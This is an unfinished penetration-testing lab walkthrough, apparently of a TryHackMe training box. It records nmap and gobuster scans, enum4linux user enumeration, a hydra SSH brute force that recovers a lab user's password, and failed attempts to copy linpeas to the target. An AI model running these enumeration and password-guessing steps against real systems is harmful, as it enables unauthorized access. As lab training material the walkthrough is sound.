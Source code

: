 kali@kali:~/oscptraining/tryhackme/BasicPentest$ nmap -sV -sC -o nmap 10.10.13.128
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 10:30 EDT
Nmap scan report for 10.10.13.128
Host is up (0.35s latency).
Not shown: 990 closed ports
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp    open     http           Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp   open     netbios-ssn    Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open     netbios-ssn    Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1061/tcp  filtered kiosk
1233/tcp  filtered univ-appserver
3800/tcp  filtered pwgpsi
8009/tcp  open     ajp13          Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open     http           Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
14441/tcp filtered unknown
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2020-10-12T10:31:20-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-10-12T14:31:19
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.13 seconds


kali@kali:~/oscptraining/tryhackme/BasicPentest$ gobuster dir -e -u http://10.10.13.128/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.13.128/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/10/12 10:32:37 Starting gobuster
===============================================================
http://10.10.13.128/.hta (Status: 403)
http://10.10.13.128/.htaccess (Status: 403)
http://10.10.13.128/.htpasswd (Status: 403)
http://10.10.13.128/development (Status: 301)
http://10.10.13.128/index.html (Status: 200)
http://10.10.13.128/server-status (Status: 403)
===============================================================
2020/10/12 10:35:13 Finished
===============================================================



some content from /development
seems like we can use SMB to get the credentials 

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

enumerate it with enum4linux
enum4linux -a 10.10.13.128 | tee basicpentest.log 

kali@kali:~/oscptraining/tryhackme/BasicPentest$ enum4linux -a 10.10.13.128
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon Oct 12 10:52:51 2020

S-1-5-32-1049 *unknown*\*unknown* (8)
S-1-5-32-1050 *unknown*\*unknown* (8)
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

 ============================================= 
|    Getting printer info for 10.10.13.128    |
 ============================================= 
No printers returned.

enum4linux complete on Mon Oct 12 11:15:10 2020

it took close to 30min... but at least we got 2 users. lets proceed to brute force by hydra.

kali@kali:~/oscptraining/tryhackme/BasicPentest$ hydra 10.10.13.128 ssh -l jan -P /usr/share/wordlists/rockyou.txt
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-12 11:20:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.13.128:22/
[STATUS] 159.00 tries/min, 159 tries in 00:01h, 14344240 to do in 1503:36h, 16 active
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 14344063 to do in 2134:32h, 16 active
[STATUS] 105.14 tries/min, 736 tries in 00:07h, 14343663 to do in 2273:41h, 16 active
[22][ssh] host: 10.10.13.128   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-12 11:28:01

lets ssh into the box

kali@kali:~/oscptraining/tryhackme/BasicPentest$ ssh jan@10.10.250.74

cant really access stuff inside. let's set up linpeas on my kali machine
kali@kali:~$ git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git


copying the linpeas file over using scp
kali@kali:~$ scp /home/kali/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh jan@10.10.250.74:/home/kay
jan@10.10.250.74's password: 
scp: /home/linpeas.sh: Permission denied

i kept failing, not sure why though
lets host a simple python webserver then

BrokenPipeError: [Errno 32] Broken pipe
kept getting the above error.... 





